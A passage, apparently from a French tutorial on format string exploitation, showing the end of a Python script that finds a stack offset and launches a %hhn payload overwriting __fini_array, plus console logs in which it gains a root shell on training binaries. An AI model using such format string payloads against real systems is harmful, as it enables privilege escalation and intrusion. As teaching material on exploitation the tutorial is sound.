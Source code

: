 ```python
            arg += "Z" * padding
            found = True
            break
    if found:
        break

# Launching binary with the final payload
if found:
    print "[*] Exploiting with format string", repr(arg)
    subprocess.call([TARGET, arg])
```

Ce qui donne pour echo :

```console
oj@hell:~$ python automatic.py ./echo 
[*] __fini_array_start is at 0x80c9614
[*] Shellcode is at address 0xbfffffd2L in process memory
[*] Buffer starts at offset # 115 with 3 bytes of padding
[*] String used is: AAAABBBBCCCCDDDD%008x%115$.8x%008x%116$.8x%008x%117$.8x%008x%118$.8x012345678912ZZZ length = 83
[*] ===== output =====
AAAABBBBCCCCDDDD080488c041414141bffffc88424242420000000043434343080488c044444444012345678912ZZZ
[*] ==================
[*] Exploiting with format string '\x14\x96\x0c\x08\x15\x96\x0c\x08\x16\x96\x0c\x08\x17\x96\x0c\x08%194c%115$hhn%045c%116$hhn%256c%117$hhn%192c%118$hhn012345678912ZZZ'
# id
uid=0(root) gid=1005(oj) groups=0(root),1005(oj)
```

et pour le *trainer* (si compilé en *static*) :  

```console
oj@hell:~$ python automatic.py ./vuln
[*] __fini_array_start is at 0x80c9aa0
[*] Shellcode is at address 0xbfffffd2L in process memory
[*] Buffer starts at offset # 127 with 3 bytes of padding
[*] String used is: AAAABBBBCCCCDDDD%008x%127$.8x%008x%128$.8x%008x%129$.8x%008x%130$.8x012345678912ZZZ length = 83
[*] ===== output =====
terminated=0x8048254, secret=0x8048268, &ptr2f=0xbffffc6c
shellcode addr=0xbfffffd2
#start a=1, b=2, c=3 - x=0xbffffc68, y=0xbffffc64, z=0xbffffc60
AAAABBBBCCCCDDDD000000014141414100000002424242420000000343434343bffffc6844444444012345678912ZZZ
#end  a=1, b=2, c=3 - x=0xbffffc68, y=0xbffffc64, z=0xbffffc60
Program terminated with success

[*] ==================
[*] Exploiting with format string '\xa0\x9a\x0c\x08\xa1\x9a\x0c\x08\xa2\x9a\x0c\x08\xa3\x9a\x0c\x08%194c%127$hhn%045c%128$hhn%256c%129$hhn%192c%130$hhn012345678912ZZZ'
terminated=0x8048254, secret=0x8048268, &ptr2f=0xbffffc6c
shellcode addr=0xbfffffd2
#start a=1, b=2, c=3 - x=0xbffffc68, y=0xbffffc64, z=0xbffffc60
��
 ��
  ��
   ��
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               h012345678912ZZZ
```